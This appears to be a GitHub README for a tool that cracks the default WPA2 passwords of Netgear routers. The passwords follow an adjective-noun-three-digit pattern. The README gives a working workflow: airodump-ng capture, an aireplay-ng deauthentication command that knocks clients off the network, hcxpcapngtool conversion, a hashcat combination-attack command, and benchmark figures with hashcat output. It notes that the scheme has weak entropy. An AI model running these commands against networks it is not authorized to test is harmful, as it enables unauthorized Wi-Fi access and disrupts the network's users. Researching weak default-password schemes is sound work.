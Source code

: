 
# Netgear WPA Wordlist

A wordlist for targeting netgear router default WPA2 passwords

Many Netgear routers with the SSID of `NETGEARxx` (where xx is a two digit number) have a default Wi-Fi password with the following pattern:
```
[english adjective][english noun][3 digit number]
```

Security researchers have noted that this password scheme does not provide a sufficient amount of entropy to generate secure Wi-Fi passwords.

## Generating Wordlist

In order to optimize wordlist file sizes, we will use two wordlists to feed into hashcat's Combination attack mode.

The first wordlist will be a list of 5000 adjectives.
- top\_english\_adjs\_lower\_5000.txt

The second wordlist will be a list of all combinations of a list of 10000 nouns with all possible 3 digit numbers.
Not wanting to commit a 106M wordlist to this repo, we will use the included python script to generate the second wordlist file(`nouns-numbers.txt`):
```
generate-nouns-numbers.py
```

## Capturing WPA 4-way Handshake

save 4-way handshake to pcap:
```
sudo airodump-ng wlan0 --essid-regex NETGEAR[1-9]{2} -w psk
```

deauth client connected to targeted access point to get a handshake
```
sudo aireplay-ng -0 1 -a <AP MAC> -c <CLIENT MAC> wlan0
```

convert pcap to hashcat format
```
hcxpcapngtool -o hash.hc22000 -E wordlist psk-01.cap
```

## Cracking WPA Password Hash

hashcat Combination attack mode
```
hashcat -m 22000 -a 1 hash.hc22000 top_english_adjs_lower_5000.txt nouns-n-numbers.txt
```

## Math & Benchmarking

testing was performed with 1 Nvidia 2080TI GPU

- 2080TI hashing speed
    - 125100 WPA2 hashes per second (hashcat mode 22000)
- adjective wordlist size
    - top\_english\_adjs\_lower\_5000.txt: 5000
- noun + 3 digit number wordlist size
    - nouns-n-numbers.txt: 10000000
- total number of password guesses
    - 50000000000 = 5000 * 10000000
- time to crack all possible passwords
    - 50000000000 guesses / 125100 hashes/second = 399680 seconds
    - 111 hours
    - 4.6 days

```
Session..........: hashcat
Status...........: Running
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Wed Sep 13 18:52:20 2023 (2 secs)
Time.Estimated...: Sun Sep 17 21:52:17 2023 (4 days, 2 hours)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (top-english-wordlists/top_english_adjs_lower_5000.txt), Left Side
Guess.Mod........: File (nouns-n-numbers.txt), Right Side
Speed.#1.........:   140.3 kH/s (0.32ms) @ Accel:64 Loops:128 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 158848/50000000000 (0.00%)
Rejected.........: 0/158848 (0.00%)
Restore.Point....: 0/5000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:73-74 Iteration:3712-3840
Candidate.Engine.: Device Generator
Candidates.#1....: othertime073 -> paradoxicaltime073
Hardware.Mon.#1..: Temp: 47c Fan: 14% Util: 66% Core:1965MHz Mem:6800MHz Bus:16
```

## References

- https://github.com/3mrgnc3/RouterKeySpaceWordlists
- https://www.aircrack-ng.org/doku.php?id=cracking_wpa
- https://github.com/david47k/top-english-wordlists
- https://hashcat.net/forum/thread-7443-post-40036.html#pid40036
- https://hashcat.net/wiki/doku.php?id=example_hashes
